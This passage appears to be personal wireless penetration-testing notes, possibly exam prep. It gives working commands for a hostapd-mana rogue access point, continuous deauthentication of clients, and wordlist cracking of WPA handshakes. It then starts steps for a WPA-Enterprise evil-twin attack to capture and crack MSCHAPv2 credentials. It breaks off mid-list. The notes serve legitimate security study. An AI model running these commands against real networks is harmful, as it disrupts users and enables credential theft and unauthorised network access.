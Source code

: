 ```bash
hostapd-mana (-B optional) hostapd.conf

#with B option you will be able to see the output of what is connecting
# and what is not.  Somestimes its good to see what is being captured. 
```

```bash
#capture your handshakes and crack them
#deauth as needed to deauth devices that are trying to connect to your mimiced AP name
sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon

#once you have handshakes use john to crack like you would normally
aircrack-ng FluffyChicken.hccapx -e Chicken -w /usr/share/john/password.lst
```

### 🔐 WPA-Enterprise (802.1X / PEAP / MSCHAPv2)

- WPA-Enterprise attacks don’t yield pre-shared keys like WPA2-PSK.
- These attacks rely on **social engineering + rogue APs**.
- Success depends on users connecting and entering credentials.
- Certificate warnings can tip off users.

> **Objective**: Set up a rogue AP, force a client to connect, capture MSCHAPv2 hashes, and crack them.
> 
> The AUTH column shows the AP
> has an authentication type of **MGT**, meaning WPA Enterprise.

CMD to check cert timeouts.

`openssl x509 -in CERT_FILENAME -noout -enddate`

---

#### Steps

1. Pcap to capture certificate

2. Deauth client

3. open the capture file with *Wireshark* and locate the server certificate frame
   
   1. **tls.handshake.type == 11** or **tls.handshake.certificate**
   
   2. open *Extensible Authentication Protocol* > *Transport Layer Security*. We now have
      to open the **TLSv1 Record Layer: Handshake Protocol: Certificate** (or similar, as the TLS version will vary). Once there, we will
      have to expand **Handshake Protocol: Certificate** item, then **Certificates** (plural). Inside **Certificates**, we can see one or
      more entries named **Certificate**. Each of them will be preceded by
      the length. For each certificate, we right click and select *Export
      Packet Bytes* to save the data into a file with a .der extension
   
   3. Read each file and or Convert to a PEM file.
      
      1. `openssl x509 -inform der -in CERTIFICATE_FILENAME-text`
      